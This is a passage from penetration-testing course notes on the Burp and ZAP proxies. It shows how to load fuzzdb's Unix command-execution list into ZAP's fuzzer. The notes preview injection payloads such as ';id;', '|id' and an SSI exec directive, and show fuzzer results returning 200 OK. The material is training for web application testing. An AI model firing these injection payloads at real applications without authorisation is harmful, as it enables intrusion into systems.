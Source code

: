 1. Go to: `File Fuzzers > fuzzdb > attack > os-cmd-execution`
2. Select: `command-execution-unix.txt`

```
Payloads Preview:
1: <!--#exec cmd="/usr/bin/id"-->
2: <!--#exec cmd="id"-->
3: /index.html|id|
4: ;id;
5: |id
6: ;netstat -a;
...
```

We can run these against the application. If the fuzzer gets 200 OK responses, we know our payloads were successful.

```
+---------+--------------+--------+---------+-------------------+-------------------+
| ID      | Message Type | Code   | Payload | Size Resp. Body   | Resp. Time (ms)   |
+---------+--------------+--------+---------+-------------------+-------------------+
| 5       | Fuzzed       | 200 OK | ;id     | 54 bytes          | 12.6              |
| 6       | Fuzzed       | 200 OK | |id     | 54 bytes          | 12.5              |
| 7       | Fuzzed       | 200 OK | id      | 54 bytes          | 12.1              |
+---------+--------------+--------+---------+-------------------+-------------------+
```

---

## Closing Thoughts

This module showcased the power of both Burp and ZAP proxies and their extension ecosystems. These tools are essential for penetration testers focused on web application assessments.

After working through this module:

- Explore HTB's main platform for web-attack boxes.
- Continue sharpening your skills in both tools.
- Keep exploring extensions to expand your capabilities.

> 🛠️ Tools to keep in your belt: Nmap, Hashcat, Wireshark, tcpdump, sqlmap, ffuf, gobuster, and more.